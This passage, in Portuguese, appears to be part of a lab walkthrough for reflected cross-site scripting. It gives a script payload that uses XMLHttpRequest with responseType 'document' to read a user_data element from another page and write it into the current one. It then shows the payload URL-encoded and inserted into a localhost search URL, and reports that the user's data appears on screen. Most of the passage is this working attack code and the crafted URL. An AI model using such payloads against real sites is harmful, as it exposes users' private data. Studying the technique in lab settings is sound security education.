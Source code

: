 Portanto, podemos usar a propriedade `responseType` para definirmos o tipo da resposta como `document`. Isso fará com que a resposta seja interpretada como HTML ou XML, nos permitindo tratá-la como qualquer outro documento, podendo assim extrair valores.

```html
<script>
var req = new XMLHttpRequest();
req.onreadystatechange = function() {
	if (req.readyState == 4 && req.status == 200){
		var htmlPage = req.responseXML;
		var user_data = htmlPage.getElementById("user_data").innerHTML;
		document.getElementById("exploit").innerHTML = user_data;
	}
};
req.open("GET", "/18/user/", true);
req.responseType = "document";
req.send();
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%7B%0A%09%09var%20htmlPage%20%3D%20req.responseXML%3B%0A%09%09var%20user_data%20%3D%20htmlPage.getElementById%28%22user_data%22%29.innerHTML%3B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20user_data%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F18%2Fuser%2F%22%2C%20true%29%3B%0Areq.responseType%20%3D%20%22document%22%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/18/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%7B%0A%09%09var%20htmlPage%20%3D%20req.responseXML%3B%0A%09%09var%20user_data%20%3D%20htmlPage.getElementById%28%22user_data%22%29.innerHTML%3B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20user_data%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F18%2Fuser%2F%22%2C%20true%29%3B%0Areq.responseType%20%3D%20%22document%22%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E](http://localhost/18/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%7B%0A%09%09var%20htmlPage%20%3D%20req.responseXML%3B%0A%09%09var%20user_data%20%3D%20htmlPage.getElementById%28%22user_data%22%29.innerHTML%3B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20user_data%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F18%2Fuser%2F%22%2C%20true%29%3B%0Areq.responseType%20%3D%20%22document%22%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E)

Ao acessar a URL, temos os dados impressos na tela.
